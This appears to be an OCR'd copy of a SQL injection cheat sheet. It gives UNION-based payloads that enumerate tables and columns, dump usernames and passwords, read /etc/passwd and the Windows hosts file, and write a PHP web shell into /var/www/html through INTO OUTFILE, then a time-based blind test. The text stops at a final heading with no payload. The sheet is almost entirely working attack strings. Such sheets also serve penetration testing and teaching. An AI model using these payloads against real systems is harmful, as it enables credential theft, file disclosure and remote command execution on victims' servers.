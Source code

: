 ```
' UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema=database()--
```

## Enumerate columns in specific table

```
' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'--
```

## Extract data from users table

```
' UNION SELECT 1,username,password FROM users--
```

## Extract multiple columns concatenated

```
' UNION SELECT 1,CONCAT(username,':',password),3 FROM users--
```

## Extract data with GROUP_CONCAT

```
' UNION SELECT 1,GROUP_CONCAT(username,':',password),3 FROM users--
```

## Read file using LOAD_FILE

```
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3--
```

## Read file using LOAD_FILE on Windows

```
' UNION SELECT 1,LOAD_FILE('C:\\Windows\\System32\\drivers\\etc\\hosts'),3--
```

## Write file using INTO OUTFILE

```
' UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php'--
```

## Test for time-based blind SQL injection

```
' AND SLEEP(5)--
```

## Test for time-based injection with IF statement
